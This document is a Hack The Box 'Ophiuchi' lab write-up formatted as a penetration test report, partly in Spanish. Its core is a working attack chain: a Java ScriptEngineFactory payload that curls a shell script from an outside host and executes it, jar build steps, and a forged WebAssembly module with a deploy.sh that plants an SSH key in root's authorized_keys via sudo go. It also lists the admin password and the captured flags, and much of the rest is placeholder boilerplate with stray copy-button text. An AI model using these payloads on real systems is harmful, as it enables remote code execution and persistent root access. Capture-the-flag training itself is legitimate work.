










# Offensive Security Assessment Report: Ophiuchi


**Offensive Security Assessment & Penetration Testing Report** conducted on the target environment **Ophiuchi** hosted on **Hack The Box**, executed in accordance with **OffSec PEN-200 (OSCP)** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Ophiuchi |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Medium |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** How many open TCP ports are listening on Ophiuchi?

* **Observed Evidence / Output:** 2



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


> **Assessment Query / Target Milestone:** What webserver is running on port 8080? Give the one word answer.

* **Observed Evidence / Output:** tomcat


* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


> **Assessment Query / Target Milestone:** What user is the webserver running as?

* **Observed Evidence / Output:** tomcat

```jsx
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

public AwesomeScriptEngineFactory() throws InterruptedException {
         try {
             Process p = Runtime.getRuntime().exec("curl http://10.10.14.8/shell.sh -o /dev/shm/.s.sh");
             p.waitFor();
             p = Runtime.getRuntime().exec("chmod +x /dev/shm/.s.sh");
             p.waitFor();
             p = Runtime.getRuntime().exec("/dev/shm/.s.sh");
         } catch (IOException e) {
             e.printStackTrace();
         }
     }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}

sudo apt update
sudo apt install -y default-jdk
javac -version
jar --version

mkdir -p out
javac --release 8 -d out src/artsploit/AwesomeScriptEngineFactory.java \
  || javac -source 8 -target 8 -d out src/artsploit/AwesomeScriptEngineFactory.java

jar cf yaml-payload.jar -C out . -C src META-INF/services/javax.script.ScriptEngineFactory
jar tf yaml-payload.jar | grep -E 'Awesome|META-INF/services'

```



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the admin user's password on Ophiuchi?

* **Observed Evidence / Output:** whythereisalimit



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located in the admin user's home directory.**

* **Observed Evidence / Output:** b9586ac35361cbb4ed407d94dc76a1d4



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path of the binary that the admin user can run as any user without a password on Ophiuchi?

* **Observed Evidence / Output:** /usr/bin/go



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the name of the web assembly file run by index.go?

* **Observed Evidence / Output:** main.wasm”



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the name of the shell script that's executed when the wasm file returns "1"?

* **Observed Evidence / Output:** [deploy.sh](http://deploy.sh/) 



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Is it true that both `main.wasm` and `deploy.sh` are both looked for in the current directory by `index.go`?**

* **Observed Evidence / Output:** yes


* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.


**Submit the flag located in the root user's home directory.**

* **Observed Evidence / Output:** 7da4575e698bc8934b903d2fee972ac1

```jsx

sshpass -p whythereisalimit scp admin@10.10.10.227:/opt/wasm-functions/main.wasm .
file main.wasm 

(module
(func (export "info") (result i32)
i32.const 1)
)
Compila y prueba:
```

```jsx
bash
Copiar
Editar
wat2wasm main.wat -o main_patched.wasm
wasm-interp main_patched.wasm --invoke=info   # debe imprimir: 1
Sube y sustituye en la máquina:
```

```jsx
bash
Copiar
Editar
sshpass -p 'whythereisalimit' scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null \
main_patched.wasm [admin@10.10.10.227](mailto:admin@10.10.10.227):/dev/shm/
```



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.


> 
> 
> 
> # Reversing de `main.wasm`
> 

> **Assessment Query / Target Milestone:** > ## ¿Qué es WASM (muy breve)?
> 
> **WebAssembly (WASM)** es un formato binario para una VM de pila, portable y rápido. Aunque nació para el navegador, puede ejecutarse en otros entornos. Un módulo WASM exporta funciones/memoria y se invoca desde un *host* (en este caso, un programa en Go).
> 
> ## Extraer y mirar el módulo
> 
> ```bash
> # Copiar desde la máquina víctima (ejemplo de HTB Ophiuchi)
> sshpass -p whythereisalimit scp admin@10.10.10.227:/opt/wasm-functions/main.wasm .
> 
> file main.wasm
> # WebAssembly (wasm) binary module version 0x1 (MVP)
> 
> ```
> 
> ## Herramientas (WABT)
> 
> Instala **WABT** (WebAssembly Binary Toolkit). En Kali/Ubuntu moderno puedes usar paquete o compilar:
> 
> ```bash
> # Opción A (paquete si existe)
> sudo apt install -y wabt
> # Opción B (compilar)
> git clone --recursive https://github.com/WebAssembly/wabt
> cd wabt && make
> 
> ```
> 
> Las utilidades que usaremos:
> 
> - `wasm2wat` → binario → texto `.wat`
> - `wasm-decompile` → binario → “pseudo-C” legible
> - (más tarde) `wat2wasm` → texto `.wat` → binario
> 
> ### Ver el módulo en texto
> 
> ```bash
> wasm2wat main.wasm
> 
> ```
> 
> Salida típica (resumen):
> 
> ```wasm
> (module
>   (type (;0;) (func (result i32)))
>   (func $info (type 0) (result i32)
>     i32.const 0)
>   (export "info" (func $info))
>   ...
> )
> 
> ```
> 
> La función **`info` retorna 0**.
> 
> ### Verlo decompilado (más claro)
> 
> ```bash
> wasm-decompile main.wasm
> 
> ```
> 
> Salida:
> 
> ```c
> export function info():int {
>   return 0
> }
> 
> ```
> 
> **Conclusión:** `main.wasm` exporta `info()` y devuelve **0**, por eso el programa Go no “despliega” (está esperando **1**).
> 
> ---
> 
> # Estrategia de explotación
> 
> - El programa Go **usa rutas relativas**, así que puedes **controlar `main.wasm` y `deploy.sh`** (por ej. copiándolos a `/dev/shm` y ejecutando desde ahí).
> - Si haces que `info()` devuelva **1**, el Go seguirá con el **deploy** y ejecutará `deploy.sh` (con `sudo go run …` lo hará **como root**).
> - En `deploy.sh`, mete una acción que te dé **persistencia**/shell. Lo más cómodo: añadir tu **clave pública** a `/root/.ssh/authorized_keys`.
> 
> ---
> 
> # Crear un WASM que devuelva 1
> 
> Tienes varias formas. Te doy dos:
> 
> ## Opción 1 (rápida y offline): escribir `.wat` a mano y compilar
> 
> Crea un archivo `info1.wat`:
> 
> ```wasm
> (module
>   (type $t0 (func (result i32)))
>   (func $info (type $t0) (result i32)
>     i32.const 1)
>   (export "info" (func $info))
> )
> 
> ```
> 
> Compila a binario:
> 
> ```bash
> wat2wasm info1.wat -o main.wasm
> 
> ```
> 
> > Ese main.wasm ya exporta info() que devuelve 1.
> > 
> 
> ## Opción 2 (online): wasmFiddle / WebAssembly Explorer
> 
> - Escribe un C mínimo:
>     
>     ```c
>     int info(void){ return 1; }
>     
>     ```
>     
> - Compila a WASM, descarga el **binario** y renómbralo a `main.wasm`.
> 
> ---
> 
> # Preparar `deploy.sh`
> 
> Ejemplo (agrega tu clave pública a root):
> 
> ```bash
> cat > deploy.sh << 'EOF'
> #!/bin/bash
> set -e
> echo "[*] Adding public key to /root/.ssh/authorized_keys"
> mkdir -p /root/.ssh
> chmod 700 /root/.ssh
> echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys
> chmod 600 /root/.ssh/authorized_keys
> echo "[+] Done."
> EOF
> chmod +x deploy.sh
> 
> ```
> 
> > Sustituye la clave por tu ~/.ssh/id_ed25519.pub.
> > 
> 
> ---
> 
> # Ejecución en la víctima
> 
> 1. Sube los ficheros:
> 
> ```bash
> sshpass -p whythereisalimit scp main.wasm deploy.sh admin@10.10.10.227:/dev/shm/
> 
> ```
> 
> 1. Ejecuta el Go (desde la ruta donde espera `main.wasm`/`deploy.sh`; en este ejemplo `/dev/shm`). Si el binario Go se lanza con **sudo**, `deploy.sh` correrá como **root**:
> 
> ```bash
> sshpass -p whythereisalimit ssh admin@10.10.10.227
> cd /dev/shm
> sudo /usr/bin/go run /opt/wasm-functions/index.go
> # Debe imprimir algo tipo:
> # Ready to deploy
> # [*] Adding public key ...
> # [+] Done.
> 
> ```
> 
> 1. En tu máquina:
> 
> ```bash
> ssh -i ~/.ssh/id_ed25519 root@10.10.10.227
> # ¡root!
> 
> ```
> 
> ---
> 
> # Alternativas útiles
> 
> - **Editar el binario original**: puedes `wasm2wat main.wasm > tmp.wat`, cambiar `i32.const 0` → `i32.const 1`, y volver a compilar: `wat2wasm tmp.wat -o main.wasm`.
> - **Ver exports**: `wasm-objdump -x main.wasm` lista funciones exportadas (útil para confirmar que `info` exista).
> - **Si el host valida más cosas**: añade en tu `.wat` memoria/exports “dummy” para que coincidan con lo que usa el Go (pero en el caso del writeup bastó con `info()`).
> 
> ---
> 
> # TL;DR (comandos mínimos)
> 
> ```bash
> # en tu VM
> cat > info1.wat <<'WAT'
> (module (type $t0 (func (result i32)))
>   (func $info (type $t0) (result i32) i32.const 1)
>   (export "info" (func $info)))
> WAT
> wat2wasm info1.wat -o main.wasm
> 
> cat > deploy.sh << 'EOF'
> #!/bin/bash
> set -e
> mkdir -p /root/.ssh
> chmod 700 /root/.ssh
> echo "ssh-ed25519 AAAA...TU_CLAVE..." >> /root/.ssh/authorized_keys
> chmod 600 /root/.ssh/authorized_keys
> EOF
> chmod +x deploy.sh
> 
> sshpass -p whythereisalimit scp main.wasm deploy.sh admin@10.10.10.227:/dev/shm/
> 
> # en la víctima
> sudo /usr/bin/go run /opt/wasm-functions/index.go
> 
> # en tu VM
> ssh -i ~/.ssh/id_ed25519 root@10.10.10.227
> 
> ```
>

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for **OffSec** certification preparation (OSCP, OSEP, OSWE) and commercial penetration testing enablement.
